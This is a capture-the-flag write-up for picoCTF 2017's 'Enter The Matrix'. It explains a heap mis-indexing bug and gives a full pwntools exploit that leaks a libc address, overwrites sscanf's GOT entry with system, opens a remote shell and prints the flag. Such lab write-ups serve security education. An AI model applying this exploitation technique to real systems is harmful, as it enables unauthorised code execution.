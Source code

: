 ## Enter The Matrix - 150

### Description

The Matrix awaits you,. Take the [red pill](./matrix) and begin your journey. [Source](./matrix.c). Jack in at shell2017.picoctf.com:33490.

### Hint

  - Look carefully at how the matrix is indexed.
  - Study the heap memory layout to see what you can overwrite.

### Write up

There is 2 things we can find in the source code.

```c
else if(2 == sscanf(cmdbuf, "print %d", &id)) {
        handle_print(id);
    }
```

First, `handle_print()` can't be called because compareing value is set to 2. But this one is not important.

```c
m->data[r * m->nrows + c]
```

The important thing is that when referencing the matrix data (in `handle_get()`, `handle_set()`), it uses wrong index.

The right index must be [r * m->ncols + c].

So, by using this mistake, we can modify other matrix's data address like this.

```
create 4 1 --> 4x1 matrix
create 1 1 --> 1x1 matrix

set 0 2 0 <some value> --> matrix[0].data[8] = matrix[1].data
get 1 0 0 --> MODIFIED!!
set 1 0 0 <some value> --> CAN MODIFY CRITICAL AREA
```

What we are going to do is editing GOT entry of functions, especially sscanf to system.

Then, we are going to send `/bin/sh` as a command.    

```
$ readelf -s /lib32/libc.so.6 | grep system
  ...
  1443: 0003e3e0    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0

$ readelf -s /lib32/libc.so.6 | grep printf
  ...
  2035: 0004c410  2048 FUNC    GLOBAL DEFAULT   12 printf_size@@GLIBC_2.1
```

Let's get offsets of printf, system from lib.so.6.

```
gdb-peda$ disas printf
Dump of assembler code for function printf@plt:
    0x080484b0 <+0>:	jmp    DWORD PTR ds:0x804a108

gdb-peda$ disas __isoc99_sscanf
Dump of assembler code for function __isoc99_sscanf@plt:
   0x08048540 <+0>:	jmp    DWORD PTR ds:0x804a12c
```

Also GOT entry of printf, sscanf.

```python
from pwn import *
import sys
import struct

SYSTEM_LIBC = 0x3e3e0
PRINTF_LIBC = 0x4cc70

PRINTF_GOT = 0x804a108
SSCANF_GOT = 0x804a12c

p = remote('shell2017.picoctf.com', 33490)
# p = process(['./matrix'])

p.sendline("create 4 1")
p.sendline("create 1 1")
# p.sendline("get 0 2 0")

# leaking printf libc
addr = struct.pack('<L', PRINTF_GOT)
addr = struct.unpack('<f', addr)[0]
p.sendline("set 0 2 0 "+ str(addr))

p.sendline("get 1 0 0")
p.recvuntil('Matrix[0][0] = ')
data = p.recvline()
# print(data)

addr = struct.pack('<f', float(data))
PRINTF_POS = struct.unpack('<L', addr)[0]
SYSTEM_POS = PRINTF_POS - PRINTF_LIBC + SYSTEM_LIBC

print("printf addr : " + hex(PRINTF_POS))
print("system addr : " + hex(SYSTEM_POS))
```

Then, by using printf's GOT address, we can calculate exact address of system.

```python
# changing sscanf's got to system's
addr = struct.pack('<L', SSCANF_GOT)
addr = struct.unpack('<f', addr)[0]
p.sendline("set 0 2 0 " + str(addr))
p.recvline()

addr = struct.pack('<L', SYSTEM_POS)
addr = struct.unpack('<f', addr)[0]
p.sendline("set 1 0 0 " + str(addr))
p.recvline()

p.sendline("/bin/sh")

#p.recvlines(100)
p.interactive()
```

Now, left thing is modifying sscanf's GOT to system's address. And sending the command.

```
python exploit.py                         
[+] Opening connection to shell2017.picoctf.com on port 33490: Done
printf addr : 0xf763bc70
system addr : 0xf762d3e0
[*] Switching to interactive mode
Enter command: $ ls
flag.txt
matrix
xinetd_wrapper.sh
$ cat flag.txt
ebc2aa7c7554ffc1778bed4579c95b2e
$
```

> ebc2aa7c7554ffc1778bed4579c95b2e
